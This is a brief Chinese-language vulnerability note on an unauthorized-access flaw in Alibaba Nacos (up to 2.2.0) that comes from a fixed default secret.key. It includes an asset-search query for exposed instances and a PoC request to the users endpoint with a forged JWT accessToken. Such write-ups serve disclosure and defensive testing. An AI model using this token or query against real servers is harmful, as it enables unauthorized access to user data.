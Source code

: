 # Nacos secret.key 默认密钥 未授权访问漏洞

## 漏洞描述

Alibaba Nacos 使用了固定的secret.key默认密钥，导致攻击者可以构造请求获取敏感信息，导致未授权访问漏洞

## 漏洞影响

```
Alibaba Nacos <= 2.2.0
```

## 网络测绘

```
app="NACOS"
```

## 漏洞复现

登陆页面

![image-20230417093555107](images/image-20230417093555107.png)

漏洞原因是使用了固定的Key

![image-20230417093624167](images/image-20230417093624167.png)

验证POC

```
/nacos/v1/auth/users?accessToken=eyJhbGciOiJIUzI1NiJ9.eyJzdWIiOiJuYWNvcyIsImV4cCI6MTY5ODg5NDcyN30.feetKmWoPnMkAebjkNnyuKo6c21_hzTgu0dfNqbdpZQ&pageNo=1&pageSize=9
```

![image-20230417093649928](images/image-20230417093649928.png)